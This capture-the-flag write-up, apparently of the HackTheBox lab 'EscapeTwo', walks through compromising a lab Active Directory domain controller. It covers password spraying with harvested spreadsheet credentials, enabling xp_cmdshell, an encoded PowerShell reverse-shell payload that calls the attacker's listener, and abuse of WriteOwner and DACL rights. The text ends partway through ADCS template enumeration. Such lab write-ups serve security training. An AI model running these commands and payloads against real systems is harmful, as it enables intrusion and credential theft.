


# EscapeTwo
## Initial Credentials

```python
rose:KxEPkKe6R8su
```

## Host file setup

```python
sudo nxc smb 10.129.232.128 --generate-hosts-file /etc/hosts
[sudo] password for kali: 
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration

### Open ports
```python
nmap -p- --min-rate=2000 -sT 10.129.232.128         
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-23 19:16 +0100
Nmap scan report for DC01.sequel.htb (10.129.232.128)
Host is up (0.013s latency).
Not shown: 65510 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49693/tcp open  unknown
49694/tcp open  unknown
49695/tcp open  unknown
49700/tcp open  unknown
49724/tcp open  unknown
49733/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 65.80 seconds
```

### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 -A --min-rate=2000 -sT 10.129.232.128         
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-23 19:18 +0100
Nmap scan report for DC01.sequel.htb (10.129.232.128)
Host is up (0.014s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-23 18:19:05Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2026-07-23T18:20:28+00:00; -1s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-23T18:20:28+00:00; -1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.232.128:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2026-07-23T18:20:28+00:00; -1s from scanner time.
| ms-sql-info: 
|   10.129.232.128:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-07-23T18:14:27
|_Not valid after:  2056-07-23T18:14:27
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-23T18:20:28+00:00; -1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2026-07-23T18:20:28+00:00; -1s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows Server 2019 (97%), Microsoft Windows 10 1903 - 22H2 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)
Null auth is enabled as with all DCs by default

I cannot do anything with null authentication however

The guest account is also disabled!

### Using provided credentials

#### Shares
```python
nxc smb dc01.sequel.htb -u 'rose' -p 'KxEPkKe6R8su' --shares
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.128  445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.129.232.128  445    DC01             [*] Enumerated shares
SMB         10.129.232.128  445    DC01             Share           Permissions     Remark
SMB         10.129.232.128  445    DC01             -----           -----------     ------
SMB         10.129.232.128  445    DC01             Accounting Department READ            
SMB         10.129.232.128  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.232.128  445    DC01             C$                              Default share
SMB         10.129.232.128  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.232.128  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.232.128  445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.232.128  445    DC01             Users           READ
```

#### Users
```python
nxc smb dc01.sequel.htb -u 'rose' -p 'KxEPkKe6R8su' --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt
```

```python
cat users.txt                                     
Administrator
Guest
krbtgt
DC01$
michael
ryan
oscar
sql_svc
rose
ca_svc
```

### `Accounting Department` share

```python
smbclient //dc01.sequel.htb/'Accounting Department' -U 'rose'%'KxEPkKe6R8su'                        
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 11:52:21 2024
  ..                                  D        0  Sun Jun  9 11:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 11:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 11:52:07 2024

		6367231 blocks of size 4096. 831374 blocks available
smb: \>
```

```python
smb: \> prompt off
smb: \> mget *
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (175.0 KiloBytes/sec) (average 175.0 KiloBytes/sec)
getting file \accounts.xlsx of size 6780 as accounts.xlsx (124.9 KiloBytes/sec) (average 150.9 KiloBytes/sec)
smb: \>
```

Ill download both these files and see whats inside

So since .xlsx files are just zipped .xml files ill open these files with the engrampa archive manager and see whats going on, becuase when i open in libreoffice they appear corrupted

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preserve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:space="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t></si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malone</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst>
```

So in the SharedStrings file in the accounts.xlsx file i find this with several password inside

```python
0fwz7Q4mSpurIt99
86LxLBMgEWaKUnBG
Md9Wlq1E5bZnVDVo
MSSQLP@ssw0rd!
```

I found 4 passwords in this file

The other file is not as interesting

So now ill spray these passwords

## Password Spray leads to user compromise

```python
nxc smb dc01.sequel.htb -u 'rose' -p 'KxEPkKe6R8su' --pass-pol
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.128  445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.129.232.128  445    DC01             [+] Dumping password info for domain: SEQUEL
SMB         10.129.232.128  445    DC01             Minimum password length: 7
SMB         10.129.232.128  445    DC01             Password history length: 24
SMB         10.129.232.128  445    DC01             Maximum password age: 41 days 23 hours 53 minutes 
SMB         10.129.232.128  445    DC01             
SMB         10.129.232.128  445    DC01             Password Complexity Flags: 000000
SMB         10.129.232.128  445    DC01                 Domain Refuse Password Change: 0
SMB         10.129.232.128  445    DC01                 Domain Password Store Cleartext: 0
SMB         10.129.232.128  445    DC01                 Domain Password Lockout Admins: 0
SMB         10.129.232.128  445    DC01                 Domain Password No Clear Change: 0
SMB         10.129.232.128  445    DC01                 Domain Password No Anon Change: 0
SMB         10.129.232.128  445    DC01                 Domain Password Complex: 0
SMB         10.129.232.128  445    DC01             
SMB         10.129.232.128  445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.129.232.128  445    DC01             Reset Account Lockout Counter: 10 minutes 
SMB         10.129.232.128  445    DC01             Locked Account Duration: 10 minutes 
SMB         10.129.232.128  445    DC01             Account Lockout Threshold: None
SMB         10.129.232.128  445    DC01             Forced Log off Time: Not Set
```

There is no account lockout set in this case so i can spray safely

```python
nxc smb dc01.sequel.htb -u users.txt -p passwords.txt --continue-on-success
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.128  445    DC01             [-] sequel.htb\Administrator:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\Guest:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\krbtgt:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\DC01$:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\michael:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\ryan:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\oscar:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sql_svc:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\rose:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\ca_svc:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sa:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\Administrator:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\Guest:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\krbtgt:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\DC01$:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\michael:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\ryan:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sql_svc:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\rose:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\ca_svc:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sa:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\Administrator:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\Guest:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\krbtgt:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\DC01$:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\michael:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\ryan:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sql_svc:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\rose:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\ca_svc:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sa:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\Administrator:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\Guest:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\krbtgt:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\DC01$:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\michael:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\ryan:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sql_svc:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\rose:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\ca_svc:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sa:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE
```

I have now compromised the user `oscar`

I will now collect bloodhound data using nxc

## Bloodhound



Oscar is a member of Accounting Department, so i think he may have some more access on that share

Nevermind im wrong :)

## Access to mssql

```python
nxc mssql dc01.sequel.htb -u users.txt -p passwords.txt --continue-on-success --local-auth 
MSSQL       10.129.232.128  1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb) (EncryptionReq:False)
...[SNIP]...
MSSQL       10.129.232.128  1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

So i decided to spray against mssql as well with local auth and i find i have access as the user `sa`

```python
impacket-mssqlclient sequel.htb/sa:'MSSQLP@ssw0rd!'@dc01.sequel.htb
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

Using impacket i now have access

xp_cmdshell is disabled but i can enable it

There is no `SeImpersonatePrivilege`

### Database Enumeration

```python
SQL (sa  dbo@master)> select name from master..sysdatabases;
name     
------   
master   
tempdb   
model    
msdb     
SQL (sa  dbo@master)>
```

Nothing in any of the default databases

### Reverse shell

```python
enable_xp_cmdshell
```

First enable it

```python
penelope -p 1337
```

```python
SQL (sa  dbo@master)> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA1AC4AMgAzADIAIgAsADEAMwAzADcAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

Then set a listener and send a payload

> This one here was from revshells.com (Powershell #3 Base64)

```python
penelope -p 1337   
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.86.128 • 10.10.15.232
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC01 10.129.232.128 Microsoft_Windows_Server_2019_Standard-x64-based_PC 👤 sequel\sql_svc 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC01~10.129.232.128-Microsoft_Windows_Server_2019_Standard-x64-based_PC/2026_07_23-20_51_19-467.log
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\Windows\system32>
```

```python
PS C:\SQL2019\ExpressAdv_ENU> type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
PS C:\SQL2019\ExpressAdv_ENU>
```

I have found another password

```python
sql_svc:WqSZAF6CysDQbGb3
```

The other password i already have!

```python
nxc smb dc01.sequel.htb -u sql_svc -p 'WqSZAF6CysDQbGb3'   
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.128  445    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3
```

I can now look into bloodhound on this user

This user has nothing interesting in bloodhound

## Password spary leads to user compromise

```python
nxc smb dc01.sequel.htb -u users.txt -p 'WqSZAF6CysDQbGb3' --continue-on-success 
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.128  445    DC01             [-] sequel.htb\Administrator:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\Guest:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\krbtgt:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\DC01$:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\michael:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\rose:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\ca_svc:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sa:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE
```

So since it was a service account i had compromised, its logical to assume a regular domain user set that up with password reuse

Now i can check this user in bloodhound again

Ryan is a member of remote management so i can WINRM in!



I have WriteOwner over the `CA_SVC` account

## Abusing `WriteOwner` to compromise the `ca_svc` account

https://www.hackingarticles.in/abusing-ad-dacl-writeowner/


```python
impacket-owneredit -action write -new-owner 'ryan' -target-dn 'CN=CERTIFICATION AUTHORITY,CN=USERS,DC=SEQUEL,DC=HTB' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3' -dc-ip 10.129.232.128
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!
```

This granted me ownership now ill give myself full control (GenericAll)

```python
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target-dn 'CN=CERTIFICATION AUTHORITY,CN=USERS,DC=SEQUEL,DC=HTB' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3' -dc-ip 10.129.232.128
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20260723-211020.bak
[*] DACL modified successfully!
```

Now i should have GenericAll 

So i have multiple options here, since this is a lab ill just change the user password, but generally in the real world this is bad OPSEC

```python
nxc smb dc01.sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' -M change-password -o USER=ca_svc NEWPASS=Password123!
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.128  445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
CHANGE-P... 10.129.232.128  445    DC01             [+] Successfully changed password for ca_svc
```

```python
nxc smb dc01.sequel.htb -u ca_svc -p 'Password123!'                                                     
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.128  445    DC01             [+] sequel.htb\ca_svc:Password123!
```

I now have compromised the `ca_svc` account

## ADCS -> Domain Admin

```python
certipy-ad find -u ca_svc@sequel.htb -p 'Password123!' -stdout -target 'dc01.sequel.htb' -vulnerable
```

```python
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectRequireCommonName
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2026-07-23T20:13:28+00:00
    Template Last Modified              : 2026-07-23T20:13:28+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
